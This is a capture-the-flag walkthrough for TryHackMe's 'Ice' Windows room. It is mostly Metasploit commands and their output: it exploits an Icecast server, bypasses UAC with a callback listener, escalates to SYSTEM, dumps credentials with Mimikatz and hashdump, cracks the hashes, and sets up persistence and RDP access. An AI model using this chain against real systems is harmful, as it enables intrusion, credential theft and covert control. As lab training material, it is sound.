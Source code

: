 # Ice

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

> 🔬🌐 [Ice](https://tryhackme.com/room/ice)
>
> _Deploy & hack into a Windows machine, exploiting a very poorly secured media server._
>
> <img src=".gitbook/assets/ice.png" alt="" data-size="original">

🎯 Target IP: `10.10.159.9`

## Recon

```bash
mkdir ice
cd ice/
sudo nmap -sS -sV -Pn -p- 10.10.159.9
```

```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
5357/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp  open  http         Icecast streaming media server
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 02:58:8C:89:6C:3D (Unknown)
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Exploitation

```bash
msfconsole -q
setg RHOSTS 10.10.159.9
setg RHOST 10.10.159.9
search cve:2004-1561
use exploit/windows/http/icecast_header
run
```

### Local Enumeration

```bash
getuid
sysinfo
run post/multi/recon/local_exploit_suggester
```

```bash
Server username: Dark-PC\Dark

Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows

1 exploit/windows/local/bypassuac_eventvwr         Yes The target appears to be v erable.
2 exploit/windows/local/ms10_092_schelevator       Yes The service is running, but could not be v dated.
3 exploit/windows/local/ms13_053_schlamperei       Yes The target appears to be v erable.
4 exploit/windows/local/ms13_081_track_popup_menu  Yes The target appears to be v erable.
5 exploit/windows/local/ms14_058_track_popup_menu  Yes The target appears to be v erable.
6 exploit/windows/local/ms15_051_client_copy_image Yes The target appears to be v erable.
7 exploit/windows/local/ntusermndragover           Yes The target appears to be v erable.
8 exploit/windows/local/ppr_flatten_rec            Yes The target appears to be v erable.
9 exploit/windows/local/tokenmagic                 Yes The target appears to be vulnerable.
```

## Privilege Escalation

```bash
background
sessions
use exploit/windows/local/bypassuac_eventvwr
set SESSION 1
set LHOST 10.10.55.230
set LPORT 4455
run

getprivs
```

```bash
Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

## Post Exploitation

```bash
pgrep spool
migrate 1376 # poolsv PID
migrate -N spoolsv.exe
getuid 
	Server username: NT AUTHORITY\SYSTEM

# Mimikatz
load kiwi
creds_all
```

> 📌 `Dark`:`Password01!`

```bash
hashdump
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Dark:1000:aad3b435b51404eeaad3b435b51404ee:7c4fe5eada682714a036e39378362bab:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

* Cracking (extra)

```bash
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hashes_ice.txt
```

![](.gitbook/assets/image-20230510172241398.png)

```bash
screenshare
	file:///root/ipzHMhGp.html
record_mic
timestomp
golden_ticket_create # persistence
```

```bash
run post/windows/manage/enable_rdp
xfreerdp /u:Dark /p:Password01! /v:10.10.159.9
```

![](.gitbook/assets/image-20230510171923611.png)

***
